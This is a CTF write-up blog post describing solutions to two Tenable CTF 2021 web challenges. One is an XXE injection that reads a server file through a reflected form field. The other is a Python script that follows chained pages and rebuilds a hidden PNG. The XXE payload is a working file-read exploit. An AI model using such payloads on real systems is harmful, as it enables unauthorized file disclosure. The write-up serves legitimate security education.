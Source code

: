 ```yaml
---
layout: post
title: Tenable CTF Writeup
date: 2021-02-22 01:00 +0700
modified: 2021-02-22 16:49:47 +07:00
description:  0x90skids writeups for the 2021 Tenable CTF Competition
tag:
  - ctf
  - writeup
image: https://0x90skids.com/TenableCTF_logo.png
author: 0x90skids
summmary: 0x90skids writeups for the 2021 Tenable CTF Competition
comments: true
---
```

<img class="img-fluid rounded z-depth-1" style="width:100px;height:100px;" src="TenableCTF_logo.png">
>  TenableCTF CTF 1st edition was an event hosted online. 0x90skids recently competed in the competition.

# Categories 

+  [Web](#web)

## Web
### Send A Letter
**Solved By:** Bib<br>
**Points:** 50<br>
**Flag:** flag{xxe_aww_yeah}

##### Challenge
There is a web app at [http://challenges.ctfd.io:30471/](http://challenges.ctfd.io:30471/). Find the vulnerability, exploit it, and recover the flag.

##### Solution

First look at the page here :

<img src="images/tenable-ctf/sendletter_page.png" alt="chall page">

Seems like it's a simple email send form. By checking the page source code, I found the following javascript :
```javascript
	var create_letter = function(from, return_addr, name, addr, message) {
		var letter = "<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?>";
		letter += "<letter>";
		letter += "<from>" + from + "</from>";
		letter += "<return_addr>" + return_addr + "</return_addr>";
		letter += "<name>" + name + "</name>";
		letter += "<addr>" + addr + "</addr>";
		letter += "<message>" + message + "</message>";
		letter += "</letter>";
		
		return letter;
	}
	
	var send = function() {
		var your_name = $('#your_name').val();
		var return_addr = $('#return_addr').val();
		var recipient_name = $('#recipient_name').val();
		var recipient_addr = $('#recipient_address').val();
		var message = $('#message').val();
		
		var letter = create_letter(your_name, return_addr, recipient_name, recipient_addr, message);
		
		$.get("send_letter.php?letter="+letter, function(data, status){
			alert("Data: " + data + "\nStatus: " + status);
		});
	}
```
So, `create_letter` generates an XML string that gets sent has a GET request to `send_letter.php` with param `letter`. It then returns data & status as an alert popup.
When first seeing an XML file being rendered in the back-end, I automatically think of an XXE ([XML External Entity](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)) attack.
<br>
In order for us to exploit this, we need the back-end server to return data in some way. So I started to check which fields of the form I could use to extract data.
The alert popup gave us valuable information :


<img src="images\tenable-ctf\sendletter_alert.png" alt="chall alert">

This tells us that the `name` field gets reflected back in the alert and that the file we (probably) need to read is `/tmp/messages_outbound.txt`. Great!<br>
I started crafting my payload, tested using Burp and found that the following payload worked :

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///tmp/messages_outbound.txt"> ]><letter><from>0x90skids</from><return_addr>return_addr</return_addr><name>&xxe;</name><addr>addr</addr><message>message</message></letter>
```

The alert returns : `Message to flag{xxe_aww_yeah} appended to /tmp/messages_outbound.txt for pickup. Mailbox flag raised.`<br>

Challenge solved!

`flag{xxe_aww_yeah}`

## Web
### Follow the Rabbit Hole
**Solved By:** Bib<br>
**Points:** 100<br>
**Flag:** flag{automation_is_handy}

##### Challenge
Follow the rabbit hole and get the flag.
[http://167.71.246.232/](http://167.71.246.232/)
Alternate URL: [http://167.71.246.232:8080/rabbit_hole.php](http://167.71.246.232:8080/rabbit_hole.php)

##### Solution

First up, I visited the URL mentionned in the challenge description. It returned this : `[513, '71'] 4O48APmBiNJhZBfTWMzD`<br>
Also, the URL changes to : `http://167.71.246.232:8080/rabbit_hole.php?page=cE4g5bWZtYCuovEgYSO1`. Interesting!<br>
Since the challenge is called "Follow the Rabbit Hole", I've tried "following" the page using the code provided so I used the link : `?page=4O48APmBiNJhZBfTWMzD`<br>
This brings us to another page with the same set of data (an array with a number & what appears to be HEX). So let's automate this process because I don't know how far the rabbit hole goes.<br>
I've played around with different versions of a Python script to fetch the data but I finally used :
```python
import requests
import csv

url = "http://167.71.246.232:8080/rabbit_hole.php?page="
page = "cE4g5bWZtYCuovEgYSO1"

response = requests.request("GET", f"{url}{page}")
with open('C:\\Users\\Bib\\Downloads\\rabbit_hole.csv', 'w', newline='') as csvfile:
    rabbit_csv = csv.writer(csvfile, delimiter=';', quotechar='|', quoting=csv.QUOTE_MINIMAL)
    while response.text != 'end':
        try:
            print(f"Following the rabbit hole... Page : {page}")
            response = requests.request("GET", f"{url}{page}")
            page_split = response.text.split()
            first_number = page_split[0].replace("[","").replace(",","")
            second_number = page_split[1].split("\'")[1]
            array = [first_number, second_number]
            rabbit_csv.writerow(array)
            page = page_split[2]
        except:
            print("Script end.")
```
So basically, I went all the way down the rabbit hole and fetched all data inside a CSV file. Then I sorted the data using the first number as an index.
<table>
  <tr>
    <td>
        <figure>
            <img src="images/tenable-ctf/rabbit_hole_csv_1.png" alt="raw csv">
            <figcaption>Fig 1. Sample of raw CSV file</figcaption>
        </figure>
    </td>
    <td>
        <figure>
            <img src="images/tenable-ctf/rabbit_hole_csv_2.png" alt="sorted csv">
            <figcaption>Fig 2. Sample of sorted CSV file</figcaption>
        </figure>
    </td>
  </tr>

</table>



After the data was sorted, I made a huge string with the HEX values and passed that to an HEX to ASCII converter. It gave me garbage data but I was able to see the header `PNG`.<br>
Instead, I re-ran the converter to a PNG file :<br>
<br>
<img src="images\tenable-ctf\rabbit_hole_flag.png" alt="flag">

Bingo! Challenge solved! Pretty interesting challenge :)

`flag{automation_is_handy}`